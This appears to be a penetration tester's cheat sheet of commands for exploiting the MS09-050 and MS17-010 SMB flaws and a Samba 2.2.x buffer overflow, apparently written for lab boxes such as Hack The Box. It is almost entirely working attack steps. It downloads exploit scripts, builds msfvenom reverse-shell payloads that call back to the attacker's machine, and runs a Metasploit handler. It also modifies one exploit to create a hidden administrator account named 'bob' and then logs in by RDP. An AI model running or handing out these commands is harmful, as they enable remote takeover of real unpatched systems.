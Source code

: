 https://github.com/3ndG4me/AutoBlue-MS17-010
#### MS09-50
```bash - kali
wget https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py
```
```python - kal
pip2.7 install pysmb
```
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 EXITFUNC=thread -f c
```
---
1 - Liner
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/shell/reverse_tcp;set EXITFUNC thread;set LHOST $Kali;set LPORT 443;run;"
```
---
```bash - kali
sudo msfdb run
```
```bash - kali
use exploit/multi/handler
```
```bash - kali
set payload windows/shell/reverse_tcp
```
```bash - kali
set EXITFUNC thread
```
```bash - kali
run
```
```bash - kali
pip install pysmb -t .
```
```bash - kali
python MS09_050.py 192.168.110.40
```
```bash - kali
python3 ms09-050.py $TARGET
```
#### MS17-010 method 1
https://medium.com/@simonsulyma/hack-the-box-legacy-penetration-testing-without-metasploit-44b628fe870f
```bash - kali
git clone https://github.com/helviojunior/MS17-010 && cd MS17-010/ && python checker.py $TARGET
```
`The target is not patched`
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe > ms17–010.exe
```
![[1._rlwrap]]
```bash - kali
python send_and_execute.py $TARGET ../../ms17–010.exe
```
#### MS17-010 method 2 (RDP)
```bash - kali
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```
```bash - kali
searchsploit -m 42315
```
Edit 42315, replacing the block of code from 916 - 920 with the following:
```
	print('Sending exploit')
	service_exec(conn, r"cmd /c net user bob pass /add")
	service_exec(conn, r"cmd /c net localgroup administrators bob /add")
```
```bash - kali
python 42315.py $TARGET
```
```bash - kali
rdesktop -a 16 -z $TARGET -u bob -p pass
```
#### MS17-010 method 3
```bash - kali
searchsploit -m 42031
```
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f raw EXITFUNC=thread -o exploit.bin
```
![[1._rlwrap]]
```bash - kali
python 42031.py $TARGET exploit.bin
```
#### Samba 2.2.x - Remote Buffer Overflow
```
searchsploit -m 7
```
```
chmod +x 7.pl
```
```
./7.pl -t linx86 -H $KALI -h $TARGET
```
